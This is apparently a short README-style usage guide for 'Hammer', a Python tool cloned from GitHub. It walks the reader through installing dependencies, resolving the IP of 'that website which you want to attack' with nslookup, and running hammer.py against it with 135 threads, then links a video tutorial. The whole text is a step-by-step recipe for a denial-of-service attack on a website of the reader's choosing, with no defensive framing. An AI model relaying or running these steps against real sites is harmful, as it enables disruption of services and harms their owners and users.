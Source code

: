 $ apt update<br>
$ apt upgrade<br>
$ apt install python<br>
$ apt install git<br>
$ apt install dnsutils<br>
$ git clone https://github.com/Pavithran-R/Hammer/

Hammer need <b>Name Server</b> of that website which you want to attack...<br>
$ nslookup example.com  (to Get IP Address of Website)<br>
Note the IP Address of that Website<br>

then <br>
$ cd Hammer<br>
$ python hammer.py -s [ip Address] -t 135<br>
example:<br>
$ python hammer.py -s 123.45.67.89 -t 135<br>

Video Tutorial:
How to use Hammer [`Watch it`](http://www.youtube.com/watch?v=HVbRUhX2EPo)
